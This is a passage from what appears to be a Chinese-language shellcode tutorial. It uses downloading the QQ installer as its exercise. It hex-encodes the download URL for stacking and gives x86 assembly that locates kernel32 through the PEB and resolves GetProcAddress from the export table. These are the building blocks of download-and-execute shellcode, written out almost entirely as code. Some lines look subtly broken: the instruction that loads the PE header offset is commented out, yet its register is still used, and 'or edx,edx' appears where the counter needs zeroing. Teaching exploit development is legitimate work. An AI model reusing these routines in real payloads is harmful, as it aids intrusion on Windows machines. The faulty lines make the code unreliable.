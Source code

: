 - 此处的实验以下载QQ为例：  
![](img/06-0.JPG)  
- 将下载网址`https://down.qq.com/qqweb/PCQQ/PCQQ_EXE/PCQQ2020.exe`转化为十六进制
```
0x6578652e  // exe.
0x30323032  // 0202
0x51514350  // QQCP
0x2f455845  // /EXE
0x5f515143  // _QQC
0x502f5151  // P/QQ
0x43502f62  // CP/b
0x65777171  // ewqq
0x2f6d6f63  // /moc
0x2e71712e  // .qq.
0x6e776f64  // nwod
0x2f2f3a73  // //:s
0x70747468  // ptth
```
- 找到kernel32的基地址
```
xor ecx,ecx
mov eax,[fs:ecx+0x30] ;Eax=PEB
mov eax,[eax+0xc] ;eax=PEB.Ldr
mov esi,[eax+0x14] ;esi=PEB.Ldr->InMemOrderModuleList
lodsd 
xchg esi,eax
lodsd
mov ecx,[eax+0x10] ;ecx=kernel32.dll base address

;mov ebx,[ecx+0x3c] ;kernel32.dll +0x3c=DOS->e_flanew
add ebx,ecx ;ebx=PE HEADER
mov ebx,[ebx+0x78];Data_DIRECTORY->VirtualAddress
add ebx,ecx ;IMAGE_EXPORT_DIRECTORY

mov esi,[ebx+0x20] ;AddressOfNames
add esi,ecx
```
- 找到GetProcAddress
```
or edx,edx

count:
inc edx
lodsd
add eax,ecx
cmp dword [eax],'GetP'
jnz count
cmp dword [eax+4],'rocA'
jnz count
cmp dword [eax+8],'ddre'
jnz count

;---------------------------------------------

mov esi,[ebx+0x1c] ;AddressOfFunctions
add esi,ecx

mov edx,[esi+edx*4]
add edx,ecx ;edx=GetProcAddress()

;-----------------------------------------

xor esi,esi
mov esi,edx ;GetProcAddress()
```